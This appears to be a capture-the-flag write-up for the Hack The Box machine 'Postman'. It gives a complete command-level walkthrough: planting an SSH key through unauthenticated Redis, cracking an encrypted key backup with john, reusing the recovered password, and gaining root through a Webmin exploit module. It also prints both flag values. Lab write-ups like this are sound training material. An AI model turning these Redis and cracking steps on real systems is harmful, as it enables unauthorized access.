





#  Postman

## User

### Scan

```
$ nmap -sC -sV 10.10.10.160
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 13:18 EST
Nmap scan report for 10.10.10.160
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.42 seconds
```

### Services

From top to bottom, let's go down the list of services and see if there's anything interesting. 

#### SSH

The version is OpenSSH 7.6 and doesn't seem to have many known vulnerabilities. I did find an interesting user enumeration vulnerability, but all of the PoCs I found said that every username I tested was a valid username.

#### Apache

Apache 2.4.29 doesn't have many severe vulnerabilities either. Just a local access vulnerability that may come in handy once we get a shell. The actual contents of the site are also pretty slim, it just seems like a site under construction.


#### MiniServ

Here is where it gets interesting. The version is 1.910, which is vulnerable to a RCE exploit that requires unprivileged user access. If we can get a user, then we can likely get root through this service. Unfortunately, we haven't found anything that we can exploit right now! The site is protected by a login page:



Maybe we need to brute force credentials, but just to make sure there isn't a less popular port open we should do another scan.

### Scan Part II

```
$ nmap -sC -sV -p0-10000 10.10.10.160
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-06 15:07 EST
Nmap scan report for 10.10.10.160
Host is up (0.11s latency).
Not shown: 9997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.96 seconds
```
### Services Part II

#### Redis 

Aha! A service was missing from the first scan. Redis is a type of database that we should be able to connect to. 

```
apt install redis-tools
``` 

The CLI for Redis is called `redis-cli`, we can connect with:

```
redis-cli -h 10.10.10.160
```



As you can see there aren't any keys present. Lucky for us, just getting the Redis CLI alone is enough for us to exploit the box. Redis allows us to save a file with the keys we have so far, allowing us to put whatever files we want on the box (assuming we have the permissions of course). The steps go something like this:

1. Set output directory with `config set dir /path/`
2. Set output filename with `config set dbfilename "filename"`
3. Create key `set key_name "key contents"`
4. Save db to file with `save`

The first thing that came to my mind was to upload a file with a PHP reverse shell to the webserver, then head to that address in my browser. Unfortunately, saving a file to `/var/www/html` fails without any error information, but it's likely we don't have permission for that.

From doing some research, I [found an exploit](http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html) that overwrites a users `authorized_keys` file, allowing for public key SSH access. That sounds great! But this time we can't even set the directory to anywhere inside of `/home/` without getting an error. What took me awhile to figure out was that there is a `redis` user that has a home folder outside of `/home/`. `/var/lib/redis/` has a `.ssh` folder!

### Redis Exploitation

First things first, we need to get our public ssh key ready for upload.

```
$(echo -e “\n\n”; cat ~/.ssh/id_rsa.pub; echo -e “\n\n”) > pub.txt
```

Now we can write a script that will take care of all the above steps at once, and end with SSHing into the box. It's important to script this because there are many things that can go wrong if many people are running commands in the Redis terminal all at once. To reset the configuration in case other people have messed with it, I put some commands into `commands.txt`:

```
slaveof no one
config set stop-writes-on-bgsave-error no
flushall
config set dir /var/lib/redis/.ssh/
config set dbfilename "authorized_keys"
```

Then, I wrote a bash script that handles communicating with Redis and the final SSH:

```
#!/bin/bash

HOST=10.10.10.160

cat commands.txt | redis-cli -h $HOST
cat pub.txt | redis-cli -h $HOST -x set nice
redis-cli -h $HOST save
redis-cli -h $HOST config set dir /var/lib/redis
ssh redis@$HOST
```

Executing this script gives us a shell!



### Cracking SSH Key Backups

The `redis` user doesn't have `user.txt` :(. We need to get access to a different user, probably the only user with a home folder: Matt. I ran `LinEnum.sh`, but didn't find anything interesting. Looking around for anything interesting, I stumbled upon `/opt/id_rsa.bak` because it was the only file there. I figured that this would be an easy download and pivot, but I was wrong.

The `id_rsa.bak` key is encrypted. We need to crack it and get the passphrase to be able to either make a decrypted copy or use the encrypted copy. I like `john`, so I downloaded `ssh2john` from [here](https://raw.githubusercontent.com/koboi137/john/bionic/ssh2john.py) and extracted the hash from the backup.

```
python ssh2john id_rsa.bak > id_rsa.hash
```

Now we can run `john` on the hash with a popular wordlist.

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```



It worked! We have a passphrase: `computer2008`. Now we should be able to SSH in as the owner of the key, presumably Matt.

```
ssh -i id_rsa Matt@10.10.10.160
```

But it fails!!! Everything seems to fail on this box. After much chagrin, I realized that the passphrase could also be Matt's password and maybe switching accounts on the box would work instead of using SSH.

```
su Matt
``` 

And of course, this works and we get `user.txt`:

```
517ad0ec2458ca97af8d93aac08a2f3c
```

## Root

We've done 99% of the work now, we just need to pivot and use what we know to escalate privilege. Remember that MiniServ Webmin service running on port 10000? There is a awesome exploit out there, but ir requires we have access to a low level user. If Matt used the same password for his Webmin account, we might be able to take advantage of the exploit!

There's a Metasploit module for it, so all we need to do is put in the right variables and we should get a shell!



And we have `root.txt`!

```
a257741c5bed8be7778c6ed95686ddce
```
